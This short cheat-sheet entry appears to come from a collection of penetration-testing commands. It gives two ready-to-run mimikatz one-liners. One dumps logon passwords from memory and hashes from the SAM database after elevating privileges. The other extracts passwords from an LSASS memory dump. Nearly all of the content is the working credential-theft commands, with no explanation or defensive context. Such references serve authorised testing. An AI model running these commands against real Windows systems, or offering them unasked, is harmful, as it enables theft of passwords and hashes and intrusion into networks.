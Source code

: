 # mimikatz

% mimikatz, passwords

## mimikatz onliner
```
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

## mimikatz extract credentials from dump
```
mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"
```
